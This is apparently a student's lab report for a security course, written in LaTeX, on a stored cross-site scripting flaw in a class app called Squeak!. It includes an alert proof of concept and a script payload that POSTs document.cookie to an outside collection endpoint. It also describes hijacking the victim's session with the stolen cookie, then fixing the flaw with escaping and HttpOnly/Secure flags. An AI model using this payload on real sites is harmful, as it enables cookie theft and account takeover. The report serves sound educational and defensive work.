\documentclass[11pt]{article}

\usepackage[margin=2.5cm]{geometry}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hyperref}
\usepackage{parskip}

\lstset{
  basicstyle=\ttfamily\small,
  breaklines=true,
  frame=single,
  backgroundcolor=\color{gray!10},
  xleftmargin=1em,
  xrightmargin=1em
}

\title{DVA489 --- Assignment 3 \\ Attack Report: Stored Cross-Site Scripting (XSS)}
\author{Nasif Sarwar}
\date{\today}

\begin{document}
\maketitle

\section{Overview}
Squeak!, in its unpatched form, renders every squeak's text directly into the
HTML of the feed page without escaping it. Since the text comes straight
from user input, an attacker can post a squeak containing a
\texttt{<script>} tag and have the browser execute it for every visitor who
later loads the feed. Because the payload is stored on the server (in the
\texttt{squeaks} file) rather than reflected from a single request, it fires
for every user on every page load until it is removed --- a \emph{stored}
XSS vulnerability.

\section{Vulnerable code}
The feed template inserted the squeak text directly into the HTML string
with no escaping:
\begin{lstlisting}[language=JavaScript]
function renderSqueakList() {
  return squeaks.map((s) => `
    <div class="squeak">
      ...
      <div class="squeak-text">${s.text}</div>
    </div>`).join('\n');
}
\end{lstlisting}
Whatever a user types into the squeak box is inserted verbatim as HTML.

\section{Task 1: Proof of concept}
A squeak was posted containing the payload:
\begin{lstlisting}
<script>alert('Owned');</script>
\end{lstlisting}
The browser executed the script immediately on posting, and --- critically
--- on every subsequent reload of the page, proving the payload is
persisted server-side and not merely reflected once.

\begin{figure}[h]
  \centering
  
\includegraphics[width=0.7\textwidth]{images/task1-alert-owned.png}
  \caption{The injected script executes on page load, popping an alert box.}
\end{figure}

\section{Task 2: Session hijacking via cookie theft}
Since the \texttt{squeak-session} cookie carried no \texttt{HttpOnly} flag,
it was readable from JavaScript via \texttt{document.cookie}. A second
payload was posted that silently exfiltrates the cookie to an
attacker-controlled endpoint:
\begin{lstlisting}
<script>
fetch('https://dva446.herokuapp.com/store/nasif-a3-xss-9f21',
      { method: 'POST', body: document.cookie });
</script>
\end{lstlisting}
Visiting the store URL afterwards confirmed the stolen cookie had arrived:

\begin{figure}[h]
  \centering
  
\includegraphics[width=0.9\textwidth]{images/task2-stolen-cookie.png}
  \caption{The stolen \texttt{squeak-session} cookie, retrieved from the
  attacker's collection endpoint.}
\end{figure}

The stolen \texttt{sessionid} and \texttt{username} were then manually
written into the \texttt{squeak-session} cookie in a separate (incognito)
browser session with no prior login. Reloading the page landed directly in
the victim's authenticated session --- full account takeover with no
password required.

\begin{figure}[h]
  \centering
  
\includegraphics[width=0.9\textwidth]{images/task2-impersonated-session.png}
  \caption{A separate, previously unauthenticated browser is now signed in
  as the victim, using only the stolen cookie.}
\end{figure}

\section{Defense}

\subsection{Escape all untrusted data}
The application was reimplemented using the \texttt{mustache-express}
templating engine, which HTML-escapes every value by default
(\texttt{\{\{value\}\}}). A posted \texttt{<script>} tag is now rendered as
visible, inert text instead of being interpreted as markup:
\begin{lstlisting}[language=JavaScript]
app.engine('mustache', mustacheExpress());
app.set('view engine', 'mustache');
...
res.render('feed', { username: req.session.username, squeaks });
\end{lstlisting}
\begin{lstlisting}
{{#squeaks}}
  <div class="squeak-text">{{text}}</div>
{{/squeaks}}
\end{lstlisting}

\subsection{Protect the session cookie}
The session cookie is now set with both \texttt{HttpOnly} (inaccessible to
JavaScript) and \texttt{Secure} (only sent over HTTPS):
\begin{lstlisting}[language=JavaScript]
res.cookie('squeak-session', value,
  { path: '/', httpOnly: true, secure: true });
\end{lstlisting}

\subsection{Verification}
Both payloads from Tasks 1 and 2 were re-posted against the patched
application. In both cases the script tag was rendered as literal,
non-executing text, and the session cookie was confirmed to carry the
\texttt{HttpOnly} and \texttt{Secure} flags in the browser's cookie
inspector --- even if an XSS payload were to slip through, the cookie would
no longer be readable from JavaScript.

\begin{figure}[h]
  \centering
  
\includegraphics[width=0.7\textwidth]{images/patched-escaped-text.png}
  \caption{The script payload is now rendered as plain, escaped text.}
\end{figure}

\begin{figure}[h]
  \centering
